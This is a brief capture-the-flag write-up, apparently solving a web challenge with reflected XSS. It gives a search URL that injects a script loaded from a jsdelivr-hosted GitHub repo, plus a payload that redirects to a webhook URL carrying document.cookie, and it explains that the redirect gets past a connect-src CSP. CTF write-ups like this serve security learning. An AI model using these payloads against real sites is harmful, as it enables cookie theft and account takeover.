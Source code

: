 ## Solution

Using jsdelivr to host custom github repo that executes javascripts

```
http://challenge_url:5252/search?q=%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/j3seer/test@main/XSS.js%22
``` 

```javascript
document.location="http://webhook_url/?c="+document.cookie
```

Note that ``javascript fetch() `` won't work because of connect-src in the CSP, it disables any sort of requests cross domain and since document.location is just a redirection, it works!